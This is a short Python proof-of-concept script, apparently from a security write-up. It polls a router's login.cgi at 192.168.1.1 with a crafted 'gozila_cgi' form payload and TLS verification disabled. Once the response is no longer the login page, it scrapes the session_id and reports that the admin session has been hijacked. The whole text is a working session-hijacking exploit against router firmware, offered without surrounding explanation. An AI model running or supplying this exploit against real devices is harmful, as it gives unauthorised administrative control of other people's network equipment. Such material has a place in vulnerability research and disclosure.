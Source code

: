 {% highlight python %}
#!/usr/bin/env python
import requests
from time import sleep
import re
payload = {
    "submit_button":"login",
    "submit_type":"continue",
    "gui_action":"gozila_cgi",
}
while True:
    try:
        resp = requests.post(
            "https://192.168.1.1/login.cgi",
            data=payload,
            verify=False
        )
        if "Login Page" in resp.content:
            sleep(1)
        else:
            sessionid = re.findall(r"session_id=([^\"]+)", resp.content)[0]
            print("[+] Successfully hijacked admin session. Session id is
            {}".format(sessionid))
            break
    except KeyboardInterrupt as e:
        break
{% endhighlight %}
